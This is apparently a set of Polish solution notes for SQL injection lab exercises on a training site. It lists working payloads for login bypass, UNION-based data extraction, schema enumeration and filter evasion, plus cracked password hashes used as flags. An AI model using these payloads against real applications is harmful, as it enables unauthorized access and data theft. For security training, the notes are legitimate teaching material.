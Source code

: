 # Zadanie 1

https://uw2017.p4.team/simple-sqli

```
admin' or '1' = '1
admin -d
```


# Zadanie 2

https://uw2017.p4.team/simple-sqli-2

```
a' union select 1, 'admin', '7815696ecbf1c96e6894b779456d330e' #
asd
```


# Zadanie 3

https://uw2017.p4.team/simple-sqli-2

```
a' union select 1, (select user()), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Username : insertion_

```
a' union select 1, (select database()), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Database: is_not_

```
a' union select 1, (SELECT SCHEMA_NAME AS `Database` FROM INFORMATION_SCHEMA.SCHEMATA
 limit 2,1), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Other database: safe1


# Zadanie 4

https://uw2017.p4.team/insertion_is_not_safe1

Rejestracja:
admin                                                   cośtam
[Znane hasło]

Potem logowanie admin/[Znane hasło]


# Zadanie 5

https://uw2017.p4.team/simple-sqli

Blind SQL

md5 hasła:
3b70d46bcdca708e26c16effc4cb23ed

md5/sha1 lookup table
https://crackstation.net

hasło:
blindoracle

# Zadanie 6

https://uw2017.p4.team/blindoracle

Blind SQL z użyciem sleep

md5 hasła:
f5eb51c76706fa018cf08e7a6d7ced12

hasło:
filtration

# Zadanie 7

https://uw2017.p4.team/filtration

Mysql filtering evasion
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

1 or username = 'admin' #

//test
100/*a*/or/*a*/username=char(116,101,115,116)
//nobody
100/*a*/or/*a*/username=char(110, 111, 98, 111, 100, 121)/*a*/limit/*a*/1
//admin
100/*a*/or/*a*/username=char(97, 100, 109, 105, 110)/*a*/limit/*a*/1

# Zadanie 8
Error based SQL injection


# Narzędzia (raczej do pentestów)
sqlmap
